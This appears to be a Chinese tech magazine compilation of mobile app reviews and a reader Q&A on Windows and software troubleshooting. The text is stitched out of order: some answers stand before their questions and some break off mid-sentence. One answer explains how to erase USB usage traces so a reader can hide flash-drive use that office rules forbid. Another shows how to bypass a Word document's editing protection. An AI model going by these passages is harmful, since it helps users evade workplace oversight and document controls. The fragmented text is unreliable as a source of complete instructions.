## 查话费？和 10086 说拜拜

### 资费通
适用平台：Android
http://tinyurl.com/3jy2wrb
Android平台上很多软件和游戏都会自动联网，如果你没有设置手机流量套餐，很容易就会出现资费超出的问题。此外，虽然咱们都有在运营商设定短信数量和通话时长的套餐，但谁能记得自己共发了多少短信，打了多久电话？特别是出差时漫游计费后，自己的余额还剩多少？如果你也有类似的问题，不妨试试“资费通”这款软件。运行该软件后，根据提示选择你手机卡所在的地区、运营商和具体的品牌（如北京→中国移动→动感地带），接下来连接网络（只支持WAP方式）自动下载所需的数据，资费通会自动从运营商获得你手机当前的流量和余额等信息，并支持以插件的形式放在手机桌面上。此外，资费通还能精确统计话费流量及其消费构成，提供与资费相结合归属地查询、可疑计费短信扫描，支持一键办理及退订套餐业务。

## 买手机必备检测工具

### 手机硬件检测 (Z-DeviceTest)
适用平台：Android
http://tinyurl.com/3p5zq99
如今Android手机的功能越来越丰富，在选购手机前需要学习更多的专业知识，比如买手机时要检查屏幕有无坏点、打个电话看看信号和通话质量、取下电池看看是否原装等等。但是，在我们挑选手机时JS是不会给你太多时间用来测试手机的，稍不留神可能就会遗漏某个功能的检查，万一刚好是有缺陷的部件可就“杯具”了。而“手机硬件检测”则可以帮你轻松检查手机的软硬件情况，买手机前先将该软件下载并复制到存储卡上，试机时在手机上安装。用这么一款软件就能测试电池、CPU、内存、OS这些，连USB、扬声器、指南针、摄像头、GPS、听筒等硬件情况，如发现有异常问题或不支持的硬件就会以红叉来显示，让验机变得更加简单快捷。

## 手机信号差的住这看

### 手机信号增强器
适用平台：Android
http://tinyurl.com/3kk8go4
同样在办公室，为什么A君手机信号满格，但B君的手机却只有2格？除了手机本身接收信号的硬件设计问题以外，更多的则是手机没有搜到合理的基站定位，属于软件上的设置缺陷。如果你的手机信号总比别人差一些，可以试试“手机信号增强器”。这款软件可以自动优化手机信号，通过通信基站的分析选择、主动切换优质空闲基站点，改变默认的被动切换模式，从而达到手机终端信号增强的效果。笔者简单测试了一下，通过开启信号增强器能够明显的改善通话效果，提高-1dBm至-10dBm的信号增强，效果还是比较明显的。

## 买东西手机帮你货比三家

### 我查查 (Wochacha)
适用平台：塞班/Android/iOS/WP7/WM6.x
http://www.wochacha.com/
这年头除了工资以外什么都在涨价，对咱们老百姓来说如果不算计着过日子，说不定哪天钱包就向你罢工了。到超市买东西，最让人头痛的就是分不清哪些促销标签上的产品才算真便宜，平时上班这么忙，也没有时间多逛几家超市来比价。同样一款商品，A超市比B超市贵个10%实属正常，如果每天都多花10%的资金用于采购，一年积累下来都快能买个iPhone 4S了。在这里笔者向大家推荐“我查查”这款比价软件，可以通过手机摄像头扫描商品的条形码让手机变身超级条形码识别器，通过“我查查”，在买东西时照一照商品条码，之后该商品相关信息即刻显示在手机屏幕上，包括哪家店有卖、售价多少、店家的电话地址、营业时间、网址等等所有信息，绝对是精打细算一族的必备软件。

## 塞班短信界面一点都不土

### 爱短信 (iSMS)
适用平台：塞班/Android
http://tinyurl.com/3pspnsr
诺基亚手机拥有经典的短信界面，但只限经典而已，论美观和实用的话与iPhone和很多Android系统手机就没法比了。如果你厌倦了诺基亚手机那千篇一律的短信界面，希望获得类似iPhone或更个性的界面体验，可以借助“爱短信”实现。这款软件可以取代塞班系统默认的短信功能，更具有短信、爱聊、飞信多通道融合。首次运行需注册登录，之后在信息列表页通过“选项→设置→插件设置”三步操作可以来到飞信插件的设置页面，启用之后，输入你的飞信账号和密码之后可以自动验证飞信，并且下载飞信好友。今后在使用爱短信的过程中，在发送消息时程序会智能选择发送通道（如对方有飞信且手机号码对外公开），给Ta发消息时会选择免费通道发送，为我们节省更多银子。

## 环球旅行中的语言顾问

### 随身译专业版
适用平台：iOS
http://tinyurl.com/3srfu2m
如今生活节奏这么快，很多朋友在假日期间都会选择出国旅游来犒劳自己，但对笔者这种小时没好好学英语的人来说，国外游玩时语言绝对是最大的障碍。和导游走散时如何问路？买东西时如何询价砍价？类似最基本的语言常识都不懂。如果你也和笔者一样，没关系，“随身译专业版”就能帮你最大限度解决语言不通的问题。这款软件是一款非常人性化的翻译软件（需联网哦），它可以翻译任何句子或者短语到任意的语言，不会念还能使用文本发音功能，支持52国家的语言互译，还内置很多常用的短语，带着它环游世界就再也不用怕了。

## 发微博？动口不动手

### 讯飞口讯
适用平台：iOS
http://tinyurl.com/3okluvu
俗话说“君子动口不动手”，如果你为手机办理了足够流量的数据套餐，发短信或写微博时连手指都懒得动一下，不妨试试这款“讯飞口讯”。这是一款基于“云计算”方式实现的手机听写软件，可以将语音转换为文字后通过短信/邮件/微博进行发送。最新版本加入了对最新iOS5系统的支持。软件会将你说过的内容自动填到文本框并自动添加标点符号。识别率还是很不错的，如果家中的老人正在用iPhone，即使他不会拼音，不懂汉字，只要会说话就能与你保持联系啦。

## 走到哪我都要享受优惠

- 软件名称：优惠行
- 适用平台：Android
- http://tinyurl.com/7f7djy2
不知道各位获得优惠券的途径有哪些，反正还是到麦当劳肯德基去办卡就有点OUT了。优惠行是一款手机版优惠券和会员卡的百宝箱，随时随地获取想要的优惠券，收录自己大量的会员卡优惠信息，打开手机就可以使用。装了优惠行，真正可以把你的会员卡统统放到手机里。


## 有了它 手机照相变成铅笔画

- 软件名称：画布相机 Paper Camera
- 适用平台：Android
- http://tinyurl.com/62oss8n
你是否感叹过绘画高手的铅笔素描呢？别急，有一款软件叫做画布相机Paper Camera。别看是一款拍照软件，它可以实时将所拍照片转化为所要的特殊效果。整个设计界面采用了涂鸦的风格，支持的特效处理有：卡通素描、漫画、黑白、霓虹灯。这些都是非后期处理，而且都非常真实，就像是你画出来的一样，立拍立现！



## 拼图游戏也能 DIY

- 软件名称：随拍拼图
- 适用平台：Android
- http://tinyurl.com/85awcl8
小时候都玩过拼图游戏吧，就是把9个或更多小碎块拼成一张完整的图片，可是那时的图片和拼装规则早已固定，玩过一次之后未免乏味。安装了随拍拼图之后就可以随时把自己拍到的任何照片变成拼图游戏，而且每次的拼装方法都是随机，是不是很有意思。


## 用网络听收音机

- 软件名称：Any Radio网络电台
- 适用平台：Android
- http://tinyurl.com/7wfgrhe
有很多朋友都喜欢在开车或坐车时听收音机，长篇的评书、流行的音乐都让人不免每天到同一时刻去等待。但手机没有FM/AM收音功能，难道我们要听电台的话还得再掏腰包？当然不用，只要安装了Any Radio网络电台就可以通过网络方式播放电台节目。此软件支持国内98%以上的电台节目以及国外部分电台节目的直播。支持Android手机操作系统，可以安装在手机、平板等移动设备上。只要是在有网络覆盖的地方，就能实时收听各地的电台。



## 对排队买电影票说 NO ！

- 软件名称：玩主影院
- 适用平台：Android
- http://tinyurl.com/75flu4e
小编我又一次约朋友去看电影，到了之后才发现没有连号的座位了，纠结之后还是看了那场电影。情节虽然精彩但不免郁闷。无意间发现这款玩主影院的软件，打开它随时可以关注热映大片，有想看的电影可以马上选影院、订座位，还可直接在手机上快速安全支付以获取短信形式的电子影票。更便捷的是到影院验证电子影票即可入场观影，这下小编可以免去之前的痛苦啦！



## 我的铃声 我做主

- 软件名称：铃声裁剪王
- 适用平台：Android
- http://tinyurl.com/7fp2mj6
在如今的个性化时代，谁的手机铃声还是手机固有的那几个呢，用流行音乐做铃声也有点落俗，何不自己DIY自己的铃声呢。小编推荐一款名叫铃声裁剪王的小软件。此款软件支持各种常见流媒体格式音频的裁剪。可以把自己的录音联通歌曲自行拼接。而且小巧易用且界面清爽。可以很方便设置为铃声、通知和闹钟铃声，真是自制个性铃声的必备武器。

## 健身减肥还需好帮手

- 软件名称：绿色出行大比拼
- 适用平台：iOS
- http://tinyurl.com/7gn32rz
想减肥健身吗？这可是个苦差事，没人监督靠自己多半会失败。若是有一款软件每天可以帮你计算自己所走的步数，那就另当别论了。绿色出行大比拼是一款iOS设备的计步器软件，通过手机自有的重力感应和GPS功能，根据用户手机被晃动次数、移动距离计算步行成绩，并通过移动速度判断用户是否乘坐交通工具，如超过正常行走速度，页面将出现提示错误信息而成绩无效（呵呵，别想作弊），有效地将用户绿色出行运动参数量化，自动统计用户运动量和积累的环保值。怎么样，开始运动吧！



## 我的支出我管理

- 软件名称：挖财（记账理财）
- 适用平台：iOS
- http://tinyurl.com/7bbhzq6
这年头花钱容易挣钱难，自己稍不留神钱就不知怎么花的了（反正小编我是如此……）。像老一辈一样养成随手记账确实是个好习惯，有iPhone的朋友不妨试试挖财这款软件。运行之后它会帮你记下每一笔消费，也记下了你的浪费。没有任何一个无缘无故的消费会被忽视，回头看看自己在哪些花销上可以节省，这样可以慢慢培养自己的理财意识哦。

## 提醒你 我用语音

- 软件名称：语音秘书 Voice Secretary
- 适用平台：iOS
- http://tinyurl.com/6u582kp
小编我平时总爱忘事，要做的事怕忘了，只能用报事贴、便笺条写下来贴在办公桌上。但这样做未免太麻烦。向与小编我有同样习惯的朋友推荐一款iOS软件语音秘书 Voice Secretary。它打破常规的文字提醒模式，采用全新的语音提醒（自动录音方式），只要说出你的提醒，语音秘书帮你搞定一切，不用再一个字一个字的输入，开车、走路都可以记录事情。重要会议、生日提醒、重要节日一切事情都帮你搞定。

## 网络对讲不花钱 我用手机 YY

- 软件名称：手机YY语音
- 适用平台：Symbian
- http://tinyurl.com/cv9ub6t
PC上的YY语音相信有不少朋友都用过吧，现在手机上也能用上了。手机YY语音可以在有无线网络的状态下实现多人群聊，若是玩游戏时不方便切屏，完全可以用手机代替，可聊天的频道种类不少，甚至大家一起在线K歌都可以，并且不花一分钱。


A 出现这个问题，一般都是由于系统中缺少动态运行库所致，只要将“静默运行库”安装到系统中，重新启动一次系统后就应该能正常使用QQ了。

功能保存为文本文件，然后再粘贴到Word中进行修改。如果需要保存之前的格式，可以将其保存为网页文件，然后再用记事本程序打开这个网页文件，按Ctrl+F组合键打开查找对话框，找到“<w:DocumentProtection>XXX</w:DocumentProtection>”（在查找框中请将“XXX”删除，此处通常显示为“readonly”），找到这项后直接将“DocumentProtection”修改成“UnDocumentProtection”，保存后再用Word打开即可进行编辑了。

## 找回误删除的媒体播放器

Q 误将Windows 7系统下的Media Player播放器删除了，现在无法播放系统中的媒体文件。请问如何才能将其找回？

A 媒体播放器属于系统自带的组件，可以直接按下面的方法修复：打开控制面板中的“添加或删除程序”，单击“打开或关闭Windows功能”，在列表中找到“媒体功能→Windows Media Player”并将其选中，最后执行修复安装一遍即可解决问题。

## 傻博士有话说

系统中有很多组件是默认安装的，像媒体播放器、浏览器等，而还有很多组件并没有默认安装，例如很多朋友在Windows XP系统中玩的游戏，在Windows 7系统中就找不到了，这是由于系统默认没有安装所致。只要按上面的方法打开“添加或删除程序”的“打开或关闭Windows功能”列表，找到需要的系统组件或是游戏程序进行安装即可。

## 禁用页面文件造成小红伞无法升级

Q 之前为了测试一个文件将系统页面文件禁用了一次，之后重新启用，但发现小红伞无法升级，提示：没有定制计划，在升级计划列表中也显示空白。请问这该如何解决？

A 先在小红伞的设置中关闭文件和注册表自我保护，接下来直接打开注册表编辑器，定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Avira]，接下来根据系统版本进行相应的操作：

- Windows XP系统：
将“AppDataDirectory”的值修改为“C:\Documents and Settings\Application Data\All Users\Avira\AntiVir Desktop”。
- Windows 7系统：
将“AppDataDirectory”的值修改为“C:\ProgramData\Avira\AntiVir Desktop”。
其中：“C”盘符根据操作系统所在盘符而定。

最后重新启动系统应该恢复正常了。

## 如何查看 Potplayer 的播放列表记录

Q 从KMPlayer播放器转到Potplayer播放器，但总是找不到最近播放记录在哪。请问如何才能显示最近播放记录列表？

A Potplayer播放器本身没有提供记录播放历史记录的功能，不过，如果你使用的是Windows 7系统，你可以先在Potplayer播放器中按F5键打开参数设置窗口，然后在“播放→列表”设置界面勾选“记忆近期播放名单”选项，之后再将Potplayer播放器的程序图标锁定到任务栏，日后只要右击任务栏上的Potplayer播放器图标，就可以在快捷菜单中看到播放历史记录了。

## 打开 PPT 报错

Q 使用的是PowerPoint 2003，之前一切正常，最近不知道为什么打开PPT文件总是报错，提示：PowerPoint无法显示文件中某些幻灯片上的文字、图像或对象……请问这是什么原因？

A 这是由于你更新了微软的一个新补丁程序“kb2464588”而导致的，只要在控制面板中的“添加或删除程序”列表中找到这个补丁程序将其卸载，重新启动系统即可恢复正常了。

## Notepad 打开文档显示乱码

Q 我使用Notepad打开一些文档时，经常出现乱码，而改用记事本打开却又正常。请问这是什么原因？

A 这可能是编码设置不当所致，只要在Notepad中将当前编码方式设置成“UTF-8”，或者在多种编码方式之间尝试性选择（例如常用的Unicode）即可解决问题。此外，最好使用官方下载的Notepad的最新版程序，可以避免一些旧版Bug所带来的问题。

## 傻博士有话说

由于编码与系统编码不符，经常会出现乱码现象。比如收取外地朋友发来的邮件就有可能因为编码不同而出现乱码，这时只要在邮件软件中尝试设置成“Unicode”编码（或者其他编码，例如Big5码可以解决繁体字导致的乱码现象）来解决问题。

## UltraISO 无制作优盘权限

Q 我使用UltraISO制作启动优盘时提示需要管理员权限，而我已经使用系统管理员身份登录系统了。请问这该如何解决？

A 直接右击UltraISO的快捷方式图标，选择“以管理员身份运行”，这样就可以绕开系统对权限的检测问题了。

## Potplayer 关联文件无法打开

Q 安装了Potplayer播放器，所有与Potplayer关联的文件无法直接打开，只有先打开播放器，然后再将媒体文件拖放到播放窗口才能打开。请问这该如何解决？

A 这是Potplayer播放器自身的小缺陷造成的，遇到这种情况后，可新建一个记事本文档，输入以下内容：Regsvr32 /s %CD%\DPShell.dll，最后将该记事本文件另存为扩展名为“*.bat”的批处理文件，最后只要执行此批处理文件即可解决问题。注意：直接运行上面的注册命令是无法成功的，可试着以管理员身份运行命令提示符，然后再执行该注册命令；或者如上面的方法所示，将命令写入批处理文件后，再以管理员身份运行该批处理。

## 无法打开 UMPTool

Q 我的优盘坏了，在网上找到UMPTool修复工具，但解压后启动时总提示系统错误：无法启动此程序，因为计算机中丢失NTMSAPI.DLL。请问这该如何解决？

A 只要到http://www.zhaodll.com/dll/n/200701/2357.html下载这个DLL文件，将其解压(解压密码：www.zhaodll.com)到系统盘下的system32目录中，重新启动程序即可。（安全起见，所有来自网络的文件，请务必先使用安全杀毒软件检测其安全性，然后再确定是否使用。）

## 无法直接解压

Q 下载了一批ZIP格式的压缩包文件，但是大部分压缩包内包含了特殊字符，在Windows 7系统下无法解压，必须手工一一去掉压缩包内的特殊字符才能解压。请问类似情况如何才能快速解压？

A 这是因为压缩包文件名含有乱码而导致无法正常解压，出现这种问题后，可以考虑将当前系统的语言设置成英文，这样可以解决一些乱码问题，进而也可以解决无法解压的问题。此外，还可以借助“Stuffit Deluxe”这款压缩、解压缩工具来对付这类文件名含有乱码的压缩包。

## 光影魔术手在 Windows 7 下不好用

Q 自从升级到Windows 7系统后，即便重新安装最新版的光影魔术手也有很多功能不好用，打开后就弹出框框。请问这该如何解决？

A 只要使用XP兼容模式启动后应该就没有问题了：右击光影启动快捷图标，选择“属性→兼容性”，选中“以兼容模式运行这个程序”，然后在列表中选择“Windows XP”项，启动即可。

## 解决诺顿首次更新难题

Q 一直负责单位电脑的维护工作，电脑中安装的都是诺顿杀毒软件。每次给重装系统的电脑更新诺顿病毒库时都很纠结，需要下载100多兆的更新数据，不仅速度慢，还经常因为网络不顺畅而导致更新失败。请问，这种情况下有没有什么办法可以解决？

A 针对这种情况，可以找一台上网速度较快的电脑到诺顿官方网站下载相应版本的升级包（下载地址：http://tinyurl.com/3qns8q4），下载后直接安装病毒库即可完成更新了。

## Word 文档损坏无法打开

Q 双击试图打开一篇重要的Word文档，但一直停留在“以保护视图打开”的步骤，无法继续打开这篇文档。请问这该如何解决？

A 这是由于Word文档受损而导致无法正常打开的问题。你可以尝试使用网上可找到的Word修复工具来尝试性修复一下，例如http://www.skycn.com/soft/57752.html可下载的这款修复工具就能修复不少无法打开的Word文档。（注意，安全起见，请先留好备份，然后再尝试修复操作，下同）

## 傻博士有话说

文档损坏无法打开的情况经常出现，有时候并不是文档本身存在问题，可能是Word程序出现了问题，这时可以尝试在其他电脑中打开文档。如果电脑中的Word模板文件损坏，也会出现文档打开不正常的情况，只要将x:\Documents and Settings\xxxx\Application Data\Microsoft\Templates\Normal.dot（x为系统盘位置）文件删除，重新启动Word，系统会自动重新建立，可以解决因为模板文件破坏而导致的无法打开的错误。

## QQ 无法运行

Q 不管是安装QQ2010还是QQ2011，之后总是提示：由于应用程序配置不正确，应用程序未能启动。重新安装应用程序可能会纠正这个问题。但重新安装好几遍均不能解决。请问这该如何解决？

## Word 文档为何无法修改

Q 从百度文库下载的一个Word文档，在我试图用Word对其进行编辑时却弹出输入密码框，由于不知道密码，总是无法进行修改等编辑操作。我该怎么办？

A 由于这篇文档被加密了，正常情况下，没有密码是无法对其进行编辑操作的。如果不需要原先文档的格式，可以通过另存为

## 搜狗输入法如何取消联想功能

Q 一直使用搜狗输入法，但每次切换到临时英文模式后，它总会提供联想功能，例如输入“w”时会自动联想成“with”。请问如何才能取消这个联想功能？

A 打开搜狗输入法的设置窗口，在设置属性窗口中选择“常规→其他”，将“Shift+字母”设置为## 安装 Acrobat 后没有虚拟打印机

### 问题：
我在Windows 7系统中安装了Adobe Acrobat 10 Professional后发现没有PDF虚拟打印机。请问这是怎么回事？

### 解答：
只要在控制面板中直接添加打印机，然后定位到正确的INF文件（默认为C:\Program Files\Adobe\Acrobat 10.0\Acrobat\Xtras\AdobePDF），这样就可以完成PDF虚拟打印机的添加了。

## Everything 无法保存排除列表

### 问题：
我在Everything中设置了免搜索的排除列表，但是只要重新启动该软件，它照样会搜索那些免搜索列表，感觉设置参数无法保存，请问这是什么原因？

### 解答：
先查看你使用的是不是绿色版本，更换安装官方下载的安装版本应该可以解决这个问题。此外，如果在Windows 7系统下，在设置前应该使用管理员权限运行Everything，然后进行设置，这样设置的参数应该能够正常保存下来。

## 无法安装 Photoshop CS5

### 问题：
从Adobe官网下载试用版Photoshop CS5，安装时总出现错误：安装程序无法初始化。请下载adobe support advisor，请问这是什么原因？

### 解答：
你可以先到http://adobe-support-advisor.updatestar.com/zh-cn/edit下载advisor组件并安装，如果仍不能解决问题，很有可能是你的系统中之前安装过Photoshop相关程序，而在卸载时没有卸载干净导致注册表中残留相关信息，可以打开注册表编辑器，然后手工查找与“Photoshop”相关项，找到后将其删除，之后再尝试重新安装。

## 视频录制出现声音录制问题

### 问题：
我借助Hypercam2以及笔记本电脑录制视频，但是录制的视频中的音频部分出了问题，总是录制外置麦克风的声音，而不是声卡本身发出的声音，请问这该如何解决？

### 解答：
只要右击托盘区音量图标并选择“录音设备”，在打开的窗口中选择“录制”标签，直接选择“波形输出混音”项，这样就可以直接从声卡录制系统发出的声音了。

## 如何直接打开旺旺客户端

### 问题：
我使用的是Chrome Plus浏览器，现在每次点击淘宝网上的旺旺链接，它就会直接启动Web版旺旺，而以前是直接打开客户端旺旺的，请问如何直接让其打开旺旺客户端呢？

### 解答：
将“npwangwang.dll”复制到浏览器安装目录的“plugins”目录（如果没有该目录，可以自己创建一个）。“npwangwang.dll”可以从阿里旺旺中提取，文件位置：Program Files\IronPortable\Iron\plugins\npwangwang.dll。此外，还可以将Program Files\IronPortable\Iron\plugins\npaliedit.dll文件也复制过去，该文件是支付宝调用的。

## Qsoft ramdisk 重启总是蓝屏

### 问题：
以前使用Qsoft ramdisk一切正常，自从重新安装一遍系统并重新配置后，只要重启并关机时就会蓝屏，请问这是什么原因？

### 解答：
这可能是由于你设置Qsoft ramdisk使用的内存空间超过3GB而导致的。在Windows系统中，单个程序使用超过3GB以上内存时就有可能出现系统故障，包括蓝屏故障。只要在Qsoft ramdisk中重新指定内存并确保其低于3GB即可解决蓝屏故障了。

> > 傻博士有话说：
> 在32位操作系统中，单个程序默认只能使用2GB的内存空间，不过通过修改后可以支持3GB的内存空间，修改方法：在boot.ini (Windows 2K/XP) 或者BCD (Windows Vista/7) 中添加“/3GB”参数使得限制增大到3GB。另外，如果使用微软的AWE API技术，应用程序也可以突破这个限制而访问更大的内存空间。不过在有条件的情况下，最好是升级到64位版的操作系统，例如64位的Windows 7系统，来解决此一问题。

## P2PSearcher 无法使用

### 问题：
加了条内存，将系统换成Windows 7 (64位)，发现P2PSearcher无法使用了。每次打开后就立即跳出“无法连入emule网络”的提示，请问这是什么原因？

### 解答：
这款软件运行时需要VC运行库的支持，出现这个问题的同时应该还有缺少DLL文件的错误提示，请从http://tinyurl.com/3mfhn7a下载VC7运行库，将其解压到系统盘下的System32目录中，再重新运行P2PSearcher应该可以正常使用了。

## 卡巴斯基 2012 无法卸载

### 问题：
安装了卡巴斯基2012安全部队，但是在控制面板中无法找到卸载选项，现在想卸载重新安装卡巴斯基2011，请问如何才能将其卸载？

### 解答：
直接找到系统盘目录下的“Windows\Installer”（在文件夹属性中设置显示隐藏文件），找到签名为Kaspersky Lab的文件，双击即可启动卸载程序了。其次，卡巴斯基也有专用的卸载程序，通过专用的卸载程序也可以将其卸载。如果安装了360安全卫士，也可以通过内置的软件卸载功能将卡巴斯基卸载掉。

## Total Commander 被报毒

### 问题：
安装的是Arswp杀毒软件，它总是提醒我的Total Commander有毒：D:\Program Files\Totalcmd\tcmatch.exe有特洛伊木马，请问这是怎么回事？

### 解答：
这是由于你使用了“QuickSearch eXtended”插件，而该插件没有及时更新到最新版，该插件的旧版被报毒，只要从http://tinyurl.com/mls89z下载该插件的最新版更新一下即可解决你的问题。

## 游戏无法运行

### 问题：
重新安装了操作系统后，发现之前可以正常玩的“DOD胜利之日”无法运行，打开后屏幕会显示“非预置模式”，而其他游戏（像“极品飞车”、“传奇”等可以正常打开），请问这是什么原因？

### 解答：
游戏无法正常打开，先检查显卡驱动是否正常安装，再检查DirectX是否为最新版，若不是最新版，请升级显卡驱动程序或是DirectX，由此而产生的问题便能正常解决。而你遇到的这种情况，提示“非预置模式”，与显卡驱动程序的关系更大，直接考虑卸载掉显卡驱动程序，再重新下载并安装官方最新版驱动程序应该能解决问题。

## 开启瑞星套装就无法看网络视频

### 问题：
我安装的是瑞星套装，只要开启瑞星，网络视频就无法观看了，包括暴风影音、PPS、QQLive等，请问这是什么原因？

### 解答：
这肯定是在“家长控制”中设置了禁止网络视频，只要打开瑞星设置，进入家长控制设置界面，将“网络防护”中的禁用项取消禁用即可。

## 无法彻底清除 X router

### 问题：
之前在系统中安装了软路由软件——X router，之后想将其卸载掉，但总是无法删除其驱动，重新启动后又会执行自动安装，请问这该如何解决？

### 解答：
直接使用RegWorkshop这类注册表工具，搜索“XRouter”项，找到后将所有相关项全部删除即可解决问题。当然，也可以手工在注册表编辑器中搜索“XRouter”项进行清除。（注意：安全起见，在编辑修改注册表之前，最好先对注册表做好备份，方便修改后出现异常时恢复注册表。）

> > 傻博士有话说：
> 经常遇到软件无法卸载干净，进而导致系统出现异常或是无法再次安装同款不同版本的软件的问题，这通常是因为在系统注册表中残留了这款软件的一些信息所致。一般只要使用这款软件的名称作为关键词，在注册表中搜索，找到相关项一一清除，基本上能够解决此类问题。建议使用像RegWorkshop这类注册表工具来操作，比直接在注册表编辑器中操作方便多了。

## 桌面上总会自动生成 YourGame.exe

### 问题：
Windows 7中文版系统，不知何时在桌面上自动生成一个YourGame.exe文件，将其删除后又会自动生成，请问这是什么原因？

### 解答：
这是由于你安装了“愤怒的小鸟”（Angry Bird）这款小游戏而导致的，只要将其卸载掉即可恢复正常。

## 无法安装虚拟机软件

### 问题：
之前安装的是一个完整版的虚拟机——VMware，由于体形太大，之后将其卸载，下载了一个低版本的虚拟机程序，但在安装时系统总是提示错误，不能成功安装，而且在网上邻居中还能看到之前的VMware虚拟机，请问这该如何解决？

### 解答：
这可能是由于卸载之前的版本时没有卸载干净，可以在注册表中搜索“VMware”相关项，找到后将其删除。接下来再按Win+R键打开运行对话框，输入执行“devmgmt.msc”（不含外侧引号）命令打开设备管理器，找到VMware相关驱动项，将其删除，之后应该可以正常安装低版本VMware程序了。

## Word 无法打印

### 问题：
使用的是Office 2007，在Word中执行打印命令时没有任何反应，而记事本程序可以正常打印，请问这是什么原因？

### 解答：
你可能是通过Word的菜单执行打印任务的，而在使用菜单调出打印对话框后可以修改默认打印机，而若在此指定的默认打印机并非系统默认打印机，就有可能会出现上述问题，只要在调出的打印对话框中指定打印机为系统默认打印机即可解决问题。

## “魔兽大脚”运行提示错误

### 问题：
安装的是64位版Windows 7系统，魔兽CTM更新后，在使用“魔兽大脚”时出现问题，提示：Microsoft Visual C++错误，请问这该如何解决？

### 解答：
在确保获取了管理员权限后运行“魔兽大脚”后仍出现这个错误，这一版都是VC运行库出了问题所致，只要从http://tinyurl.com/6zsrkb下载VC运行库，安装到系统中后就可以解决提示错误的问题了。

## 打开 Potplayer 总弹出警告对话框

### 问题：
使用的是Potplayer播放器，最近不知道什么原因只要试图打开Potplayer播放器，就会弹出一个对话框，内容为：Unhandled exception occurred[0xe06d7363@0x7xc812aeb] Additional exception information has been stored locally and this application will be terminated。请问这该如何解决？

### 解答：
这是由于你的Potplayer文件不完整所致，主要是缺少DTDrop.exe这个文件导致错误，将Potplayer卸载掉，重新从http://www.newhua.com/soft/69463.htm下载安装一遍即可解决问题。

## 无法卸载 Acrobat

### 问题：
在卸载Adobe Acrobat 9.3时出现一个奇怪的问题，提示无法找到网络位置\startup，无法卸载，请问这是什么原因？

### 解答：
这个问题一般会出现在这样的环境：系统中安装过多个版本的Office软件，系统注册表中便存在多个版本的Office信息，Acrobat在安装、卸载时需要从注册表中读取Office的信息，由于有多份信息便引起出错，进而会提示类似上述的错误信息。只要按Win+R键打开运行对话框，输入执行“regedit”（不含外侧引号）命令打开注册表编辑器，依次定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Office]，将下面多余的Office版本信息删除掉，再重新卸载Acrobat应该可以成功。注意：不要误将当前使用的Office版本的注册表信息删除。最好是先对相关的注册表信息导出备份，一旦因误删除引起Office异常，可恢复注册表到原先的状态。

> > 傻博士有话说：
> 很多软件之间是有关联信息的，例如很多大型软件的插件类工具，浏览器与下载工具、翻译类工具所提供的插件功能等，如果其中一个软件出现问题后，可能会引发另一款软件的不正常运行。譬如浏览器关闭了插件加载功能后，可能就无法直接调用迅雷、快车这类下载工具来下载指定的链接资源了。还有一些软件（或称为模块）是其他软件运行的必备环境，缺少的话，其他软件无法运行，例如VB运行库、VC运行库、.Net Framework等。

## 清除优盘使用记录

### 问题：
办公室的电脑被明文限制使用优盘，但实际上还是可以偷偷使用优盘的。请问，有没有什么方法可以删除优盘使用历史记录？

### 解答：
推荐你使用“UsbViewer”这款小工具（下载地址：http://www.onlinedown.net/soft/76792.htm），运行后直接单击“查看痕迹”，它会自动罗列USB使用记录，找到相应的历史记录项并右击鼠标，选择“删除所选痕迹”项即可。

## 无法安装 McAfee

### 问题：
由于与某个软件冲突，之前将McAfee卸载掉了，现在在安装McAfee Enterprise 8.7i的时候，系统总是提示：错误1920 MC Shield无法启动。请问这该如何解决？

### 解答：
这是由于McAfee没有卸载干净而导致安装失败。只要使用“VSCleanupTool”将系统中的McAfee残留信息清理掉，重新启动系统后再重新安装应该可以成功。后面，遇到类似的无法安装等相关问题，仍可以通过这款小工具清理系统中的残留信息来解决问题。

## QQ截图功能异常

### 问题：
以前打开QQ的截图功能后，会在截图区域框下显示诸如画箭头、画刷等小工具，但最近进入截图模式后，下面的按钮没有了，只有保存、删除按钮，同时还有一个新浪微博图标，请问这是怎么回事？

### 解答：
你试试直接在QQ聊天窗口打开截图按钮，在打开的截图界面中应该可以看到正常的按钮。你遇到的这个问题是由于你安装了新浪微博的PC客户端（或是新浪桌面）所致，而新浪微博客户端的截图快捷键就是QQ的截图快捷键。你在按下“Ctrl+Alt+A”键后，调用的是新浪微博客户端的截图功能，故而出现上述问题。重新修改截图快捷键即可解决问题。

## 如何找回录音文件

### 问题：
我在使用Cool Edit进行录音时，中途突然崩溃，请问，如何将之前录制的音频文件找回？

### 解答：
在Cool Edit的安装文件夹中找到“Temp”文件夹，在这个临时文件夹中就保存了录音临时文件，只要将这些文件重新按时间排序，然后再使用Cool Edit打开文件时间最近的文件，很容易找到刚刚录制的音频文件。

## 更改 Photoshop 中的鼠标形状

### 问题：
在Photoshop中不论使用哪个工具，鼠标形状都显示为星形样式，请问这是什么原因，应该如何恢复成默认状态？

### 解答：
这可能是相关参数被修改所致。要想恢复至默认状态，只要在Photoshop启动后，按下“Ctrl+Shift+Alt”，这样即可将所有设置恢复成默认参数，鼠标形状问题也能得到解决。

## Photoshop 笔刷光圈显示不全

### 问题：
刚安装了Photoshop CS5，其他一切正常，但在打开笔刷光圈时，如果光圈较小时，显示正常，放大光圈时，就只能显示一半，请问这是什么原因？

### 解答：
不少朋友均遇到过这个问题，这主要是由于你的显卡驱动程序为旧版本所致，或是系统自动匹配的驱动。只要到显卡官方网站下载并安装最新版驱动程序即可解决问题。

> > 傻博士有话说：
> 不少系统或软件的运行故障与显卡驱动程序有关。例如，显卡驱动程序未安装或是损坏，Windows 7系统的毛玻璃效果以及很多特效都无法呈现；显卡驱动程序未安装，多数游戏都无法正常运行；显卡驱动程序版本不对，诸如一台电脑拖多台显示器也无法实现。因此，很多与显示相关联的故障，首先可以考虑是不是显卡驱动程序不正常所致。

## 文件打开与编辑不是同一个程序

### 问题：
我安装了EditPlus，在打开XML文件时，默认使用的是EditPlus，但若右击选择“编辑”时，却仍使用写字板打开，请问这是什么原因？

### 解答：
其实，默认打开就是EditPlus，直接编辑不就可以了吗？但如果你非想要将打开程序与编辑程序都设置为EditPlus，可以在记事本程序中输入以下内容：
Windows Registry Editor Version 5.00
[HKEY_CLASSES_ROOT\txtfile\shell\edit\command]
@="C:\Program Files\EditPlus.exe" %1
然后保存后缀为reg的注册表文件（如editplus.reg），双击此文件将其合并到系统注册表中即可。注：需要根据实际情况修改EditPlus的安装路径。

## 无法取消 KMPlayer 记忆播放位置

### 问题：
